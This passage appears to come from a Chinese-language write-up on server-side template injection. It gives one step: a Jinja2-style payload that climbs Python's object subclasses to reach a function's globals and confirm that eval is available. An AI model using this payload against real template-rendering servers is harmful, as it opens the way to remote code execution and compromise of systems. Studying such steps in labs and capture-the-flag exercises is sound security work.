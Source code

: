 ![image-20231130012111227](./assets/image-20231130012111227.png)

初始化对象，获取函数方法合集，并确定存在内建 `eval` 函数：

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__}}`
